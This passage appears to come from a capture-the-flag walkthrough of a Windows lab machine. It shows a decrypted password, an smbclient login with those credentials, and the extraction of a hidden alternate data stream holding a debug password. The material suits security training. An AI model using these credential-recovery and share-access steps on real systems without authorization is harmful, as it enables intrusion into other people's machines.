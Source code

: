 ```vb
        Console.WriteLine("Decrypted text: " & decryptedText)
    End Sub
End Module
```
```
Encrypted text: fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=
Decrypted text: xRxRxPANCAK3SxRxRx
```

So now we have some new credentials to try: `c.smith` `xRxRxPANCAK3SxRxRx`. Let's explore our new user directory. 

```
smbclient //$IP/Users/ -U c.smith%xRxRxPANCAK3SxRxRx
````
```
Try "help" to get a list of possible commands.
smb: \> cd C.Smith\
ls
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 07:21:44 2020
  ..                                  D        0  Sun Jan 26 07:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 23:06:17 2019
  user.txt                            A       34  Sat Jan 11 10:22:07 2025

		5242623 blocks of size 4096. 1839990 blocks available
```

In `user.txt` is out first flag for this box. In the `HQK Reporting` directory, we find a file called `HQK_Config_Backup.xml` with the following content:

```xml
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```

The interesting part here is the port number `4386`, we'll keep that in mind for later.
There is also in this directory a file called `Debug Mode Password.txt` of 0 bytes. By digging a little deeper using the `allinfo` command, we get this output:

```
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 23:06:12 2019 UTC
access_time:    Thu Aug  8 23:06:12 2019 UTC
write_time:     Thu Aug  8 23:08:17 2019 UTC
change_time:    Wed Jul 21 18:47:12 2021 UTC
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

We can see a stream called `Password:$DATA` with 15 bytes of data. After getting this stream we get this content: ```WBQ201953D8w```.
